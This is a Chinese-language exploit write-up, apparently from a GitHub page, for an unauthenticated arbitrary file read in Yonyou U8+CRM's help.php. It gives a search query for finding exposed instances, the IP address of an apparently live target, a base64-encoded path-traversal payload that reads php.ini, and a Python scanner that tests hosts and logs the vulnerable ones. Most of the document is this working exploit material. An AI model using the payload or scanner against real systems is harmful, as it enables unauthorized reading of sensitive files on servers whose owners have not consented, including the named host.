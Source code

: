 ## 一、资产搜索

```
body="用友 U8CRM"
```

## 二、网站测试

用友U8+CRM系统的help2文件中接口存在任意文件读取漏洞，攻击者在未登录情况下即可进行漏洞利用

```
http://61.134.99.170:18072
```

## 三、验证漏洞

poc1

```
/pub/help.php?key=YTozOntpOjA7czoyNDoiLy4uLy4uLy4uL2FwYWNoZS9waHAuaW5pIjtpOjE7czoxOiIxIjtpOjI7czoxOiIyIjt9
```

此网站用burp打不开，只能猜测返回内容格式

![image-20240904202433839](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904202433839.png)

![image-20240904201540746](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904201540746.png)

> 在此页查找error_log可看到此系统的安装路径，如果是C盘，则可查看更多敏感信息

![image-20240904201645736](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904201645736.png)

## 四、POC

```
def poc(target):
    payload = "/pub/help.php?key=YTozOntpOjA7czoyNDoiLy4uLy4uLy4uL2FwYWNoZS9waHAuaW5pIjtpOjE7czoxOiIxIjtpOjI7czoxOiIyIjt9"
    res1 = requests.get(target,verify=False,timeout=5)
    try:
        if res1.status_code == 200:
            res2 = requests.get(target+payload,verify=False,timeout=5)
            # print(res2.text)
            if "error_log = syslog" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                print(f"该网站[+]{target}存在任意文件读取漏洞")
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请重试")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240904203650110](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240904203650110.png)

![image-20240905182441781](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240905182441781.png)